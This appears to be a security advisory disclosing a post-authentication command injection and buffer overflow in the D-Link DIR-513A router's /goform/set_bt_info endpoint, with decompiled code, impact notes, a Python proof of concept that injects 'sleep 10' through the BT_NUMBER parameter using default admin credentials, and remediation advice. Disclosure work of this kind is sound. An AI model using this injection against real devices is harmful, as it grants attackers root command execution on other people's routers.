


### 1. Vulnerability Summary

* **Vulnerability Type:** OS Command Injection (CWE-78) / Stack-based Buffer Overflow (CWE-121)
* **Affected Component:** Router Web Management Interface (based on GoAhead Web Server)
* **Affected Endpoint:** `/goform/set_bt_info`
* **Vulnerable Parameter:** `BT_NUMBER`
* **Prerequisite:** Authentication Required (Post-Auth)
* **Affected Product & Firmware Version:** D-Link DIR-513A (Hardware Rev: A1, Firmware Version: FW1.10.00TW   bin:DIR513AA1_FW1.10.00TW_20141029.bin)

### 2. Detailed Vulnerability Description

In the backend handler function `sub_43CFAC` responsible for processing BT (BitTorrent/Connection Limit) status controls, the program fails to sanitize user-submitted HTTP form parameters before passing them to a system shell. This oversight results in a critical OS Command Injection vulnerability, accompanied by a Stack Buffer Overflow.

The vulnerability trigger chain is as follows:



**Step 1: Unsafe Data Extraction**

The program retrieves the user-controlled `BT_Status` and `BT_NUMBER` parameters using the `websGetVar` function. No input sanitization or filtering is applied at this stage:

**C**

```
Var = (const char *)websGetVar(a1, (int)"BT_Status", (__int16)&word_456A88);
v3 = (const char *)websGetVar(a1, (int)"BT_NUMBER", (__int16)&word_456A88);
```

**Step 2: Unsafe String Concatenation & Buffer Overflow**

If `BT_Status` satisfies the condition to enable the feature (matching the `word_456AAC` constant, e.g., `"1"`), the program uses the unsafe `sprintf` function to concatenate the `BT_NUMBER` input (`v3`) into a local stack buffer `v8`. It is worth noting that `v8` is only allocated 104 bytes on the stack (`_BYTE v8[104];`).

**C**

```
sprintf(v8, "/sbin/connlimit.sh %s", v3);
v4 = v8;
```

**Step 3: Dangerous Command Execution (Taint Sink)**

The concatenated string is directly passed to the `system()` function. Because the input was not sanitized for shell metacharacters (such as `;`, `|`, `&`, or `$()`), an attacker can append arbitrary Linux shell commands to the `BT_NUMBER` parameter, forcing the underlying OS to execute them.

**C**

```
LABEL_5:
system(v4);
```

### 3. Impact Analysis

* **Remote Code Execution (RCE):** By injecting shell metacharacters into the `BT_NUMBER` parameter, an authenticated attacker can execute arbitrary OS commands with the privileges of the GoAhead web server (typically `root` on embedded Linux routers).
* **Complete System Compromise:** Arbitrary command execution allows an attacker to start backdoor services (e.g., `telnetd`), modify device configurations, intercept network traffic, or pivot to attack other devices on the local network.
* **Denial of Service (DoS):** Due to the use of `sprintf` into a 104-byte buffer, an attacker could alternatively exploit the accompanying buffer overflow by providing a string longer than 84 bytes, which would overwrite the return address (`$ra`) and crash the web server.

### 4. Proof of Concept (PoC)

The following Python script safely verifies the Command Injection vulnerability using a time-based blind injection technique. It injects a `sleep 10` command. If the router's response is delayed by 10 seconds (or times out), it proves the arbitrary command was successfully executed by the `system()` function.

**Python**

```
import requests
import time

# 1. Target router IP address
router_ip = "192.168.0.1" 

# Target endpoint bound to sub_43CFAC
url = f"http://{router_ip}/goform/set_bt_info" 

# 2. Construct request headers (including valid Basic Auth credentials)
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0)",
    "Content-Type": "application/x-www-form-urlencoded",
    "Authorization": "Basic YWRtaW46YWRtaW4=",  # admin:admin
    "Cookie": "language=zhtw"
}

# 3. Construct the malicious Payload
# BT_Status: Matches the condition to enter the vulnerable branch (e.g., "1")
# BT_NUMBER: Uses a semicolon ';' to terminate the intended command and injects `sleep 10`
payload = {
    "BT_Status": "1",
    "BT_NUMBER": "100; sleep 10;"
}

print(f"[*] Preparing to send Command Injection payload...")
print(f"[*] Target URL: {url}")
print(f"[*] Injected payload: {payload}")

try:
    start_time = time.time()
  
    # Send POST request with a 15-second timeout
    response = requests.post(url, data=payload, headers=headers, timeout=15)
  
    elapsed_time = time.time() - start_time
  
    print(f"[*] HTTP Status Code: {response.status_code}")
    print(f"[*] Total request time: {elapsed_time:.2f} seconds")
    print(response.text)
  
    # Verification logic
    if elapsed_time >= 10:
        print("\n[+] Trigger Successful! (Vulnerable)")
        print("[+] The response was delayed. The system executed the injected `sleep 10` command!")
    else:
        print("\n[-] The response was fast. The injection may have failed.")
        print("[-] Possible reason: BT_Status trigger value is not '1', or the endpoint is incorrect.")

except requests.exceptions.ReadTimeout:
    print("\n[+] Trigger Successful! (Timeout)")
    print("[+] The request timed out! This confirms the injected `sleep 10` command was executed and blocked the server process.")
except Exception as e:
    print(f"\n[-] An unexpected exception occurred: {e}")
```

### 5. Remediation Recommendations

1. **Input Validation (Whitelisting):** Implement strict input validation on the `BT_NUMBER` parameter. Ensure it only contains numeric digits. Reject any input containing shell metacharacters.
2. **Use Safe String Functions:** Replace `sprintf` with `snprintf` to prevent the associated stack buffer overflow.
3. **Avoid `system()` with User Input:** Do not pass raw, unvalidated user input directly to shell execution functions like `system()` or `popen()`.

### 6. Overcome (Verification Screenshots)


